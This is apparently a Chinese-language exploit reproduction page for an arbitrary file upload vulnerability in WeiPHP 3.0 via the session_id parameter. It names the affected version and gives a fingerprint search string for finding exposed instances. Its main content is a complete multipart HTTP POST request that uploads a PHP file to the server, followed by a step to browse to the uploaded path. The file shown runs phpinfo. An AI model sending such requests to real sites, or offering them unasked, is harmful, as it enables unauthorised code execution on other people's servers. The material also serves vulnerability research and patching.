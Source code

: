 # WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>WeiPHP3.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="weiphp"</a-checkbox></br>

## 漏洞复现

登陆页面标识

![img](../../../.vuepress/public/img/1628213492648-3347796e-a88d-4455-909a-f5d8f4ac047f.png)

发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```

![img](../../../.vuepress/public/img/1628213649320-464f9e3a-8b64-46b2-b4f8-4afc74fdb3e3.png)

获取目录后访问回显的 path

![img](../../../.vuepress/public/img/1628213733752-1746e894-4003-47eb-b50b-6d374133443c.png)



